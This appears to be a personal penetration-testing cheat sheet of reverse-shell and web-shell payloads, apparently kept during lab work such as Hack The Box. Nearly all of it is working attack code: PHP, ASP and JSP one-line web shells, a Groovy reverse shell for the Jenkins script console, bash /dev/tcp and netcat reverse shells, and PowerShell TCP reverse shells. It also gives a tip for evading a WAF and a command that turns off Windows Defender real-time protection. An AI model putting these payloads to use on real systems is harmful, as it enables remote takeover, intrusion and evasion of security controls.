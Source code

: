 ! Use 443 port to evade WAF.
#shell
##### Upgrade shell to fully interactive:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty size;stty raw -echo;fg
#export SHELL=bash
#stty rows $x columns $y #Set remote shell to x number of rows & y columns
export TERM=xterm-256color #allows you to clear console, and have color output
```
Good shell
```
rlwrap nc -lvnp
```
[[nc]]
#### Cheatsheet
https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/

#### PHP
#php
https://raw.githubusercontent.com/Wh1ter0sEo4/reverse_shell_php/refs/heads/main/reverse_shell.php

```php
<?php system($_REQUEST["cmd"]); ?>
```

##### Java:
#java
https://alionder.net/jenkins-script-console-code-exec-reverse-shell-java-deserialization/

##### ASP:
#asp
```asp
<% eval request("cmd") %>
```

##### JSP:
[[jsp]] #java
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

##### Groovy (jenkins console /script):
[[groovy]]
```Groovy
String host="10.10.15.232";
int port=8000;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

##### Socat port forwarding:
[[socat]] #bash #shell
Download:
https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat

from 8080 to 8888:
`./socat TCP-LISTEN:8888,fork TCP:127.0.0.1:8080

ssh port forwarding:
```shell-session
root@kali$ ssh -L 55553:127.0.0.1:55553 root@192.168.0.44
```

bash shells:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

powershell (run from cmd.exe):
[[powershell]]
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

### Windows

Disable AV to allow running shell from admin's powershell:

```powershell
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```



!